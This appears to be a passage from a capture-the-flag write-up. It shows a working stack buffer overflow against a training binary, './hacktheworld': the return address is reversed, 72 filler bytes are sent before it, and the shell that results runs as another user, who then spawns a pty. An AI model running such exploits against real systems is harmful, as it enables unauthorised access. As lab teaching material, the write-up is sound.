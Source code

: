 ```bash
\x00\x00\x00\x00\x00\x40\x06\x57
```

`echo -ne '\x00\x00\x00\x00\x00\x40\x06\x57' | xxd -p | tac -rs .. | sed 's/\(..\)/\\x\1/g'`

```bash
\x57\x06\x40\x00\x00\x00\x00\x00
```

`python2.7 -c "print 'a'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00'" | ./hacktheworld`

```bash
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
zsh: done                python2.7 -c "print 'a'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00'" | 
zsh: segmentation fault  ./hacktheworld
```

`(python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat) | ./hacktheworld`

```bash
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
```

```bash
magna@anonymous-playground:~$ (python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat) | ./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.

We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
id
uid=1337(spooky) gid=1001(magna) groups=1001(magna)
whoami
spooky
python3 -c "import pty;pty.spawn('/bin/bash')"
spooky@anonymous-playground:~$ pwd
pwd
/home/magna
spooky@anonymous-playground:~$ 

```
